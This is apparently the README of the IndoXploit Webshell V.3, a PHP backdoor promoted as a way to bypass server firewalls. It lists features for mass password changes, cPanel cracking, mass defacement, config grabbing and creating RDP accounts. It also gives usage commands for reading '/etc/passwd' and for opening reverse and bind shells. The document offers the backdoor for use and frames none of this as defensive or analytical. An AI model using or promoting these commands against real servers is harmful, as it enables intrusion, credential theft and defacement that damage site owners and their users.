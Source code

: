 # IndoXploit Webshell V.3

IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by **agussetyar** from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

---
## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - Read File
 usage: rf [filename]
 example: rf /etc/passwd

 - Spawn File/Tools 
 usage: spawn [name]

 [name]
- Adminer (adminer)
 - WebConsole (webconsole)
 - CGI Telnet 1 (cgitelnet1)
 - CGI Telnet 2 (cgitelnet2)
 - PHPINFO (phpinfo)

 example:
 spawn adminer
 spawn webconsole
 spawn cgitelnet1

- Jumping
usage: jumping

- Config Grabber
usage: idxconfig

 - Symlink 
 usage: symlink

 - Reverse Shell 
 [Back Connect]
 usage: rvr bc [IP] [PORT] [TYPE]
 example:
 ~~~
 rvr bc 127.0.0.1 1337 bash
 rvr bc 127.0.0.1 1337 perl
~~~

 [Bind Port]
 usage: rvr bp [PORT] [TYPE]
 example:
~~
 rvr bp 1337 perl
~~

 - KRDP - Create RDP Account (for windows server only) 
 usage: krdp

 - Logout From Shell
usage: logout

 - Kill Backdoor 
usage: killme

